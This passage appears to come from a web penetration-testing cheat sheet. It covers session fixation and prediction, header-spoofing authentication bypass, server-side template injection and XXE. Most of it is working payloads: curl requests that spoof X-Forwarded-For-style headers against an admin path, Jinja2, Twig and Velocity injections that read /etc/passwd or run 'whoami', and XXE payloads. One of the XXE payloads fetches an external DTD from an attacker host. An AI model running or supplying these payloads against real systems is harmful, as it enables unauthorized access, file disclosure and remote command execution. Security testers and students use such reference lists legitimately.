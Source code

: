### Session Management Issues
```bash
# Session prediction
# Analyze session tokens for patterns

# Session fixation
# 1. Get session ID before login
# 2. Force victim to use this session ID
# 3. Victim logs in with predetermined session

# Weak session tokens
# Look for incrementing, predictable patterns in session IDs
```

### HTTP Header Authentication Bypass
```bash
# Try different headers
curl -H "X-Forwarded-For: 127.0.0.1" http://<target>/admin
curl -H "X-Real-IP: 127.0.0.1" http://<target>/admin  
curl -H "X-Originating-IP: 127.0.0.1" http://<target>/admin
curl -H "X-Remote-IP: 127.0.0.1" http://<target>/admin
curl -H "X-Remote-Addr: 127.0.0.1" http://<target>/admin
```

## Advanced Techniques

### Server-Side Template Injection (SSTI)
```bash
# Detection payloads
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}

# Jinja2 (Python)
{{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}

# Twig (PHP)  
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("whoami")}}

# Velocity (Java)
#set($str=$class.forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('whoami'))
```

### XML External Entity (XXE)
```xml
<!-- Basic XXE -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<root>&xxe;</root>

<!-- Blind XXE with external DTD -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://<attacker-ip>/evil.dtd"> %xxe;]>
<root></root>
```
